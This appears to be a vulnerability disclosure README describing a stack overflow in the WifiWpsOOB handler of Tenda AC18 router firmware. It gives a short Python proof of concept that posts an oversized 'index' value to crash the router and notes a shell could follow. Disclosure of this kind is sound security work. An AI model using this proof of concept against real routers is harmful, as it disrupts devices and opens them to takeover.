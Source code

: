 # Tenda AC18 V15.03.05.19 Stack overflow vulnerability

## Overview

- Manufacturer's address：https://www.tenda.com.cn/
- Firmware download address ： https://www.tenda.com.cn/download/detail-2683.html

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/WifiWpsOOB.   The contents obtained by the index parameter are passed to nptr, and then the contents matched by nptr  and put into the s without size checking, resulting in a stack overflow.
![](img/2.png#center)
![](img/3.png#center)
## POC

Run poc

```python
import requests

url = 'http://IP:port/goform/WifiWpsOOB'


headers = {"Cookie": "password=You cookie"}
data = {
    'index': 'a' * 10000
}

r = requests.post(url=url, headers=headers, data=data, proxies=proxies)
hunzi = r.text
print(hunzi)
```

You can see the router crash, and finally you can write an exp to get a shell.
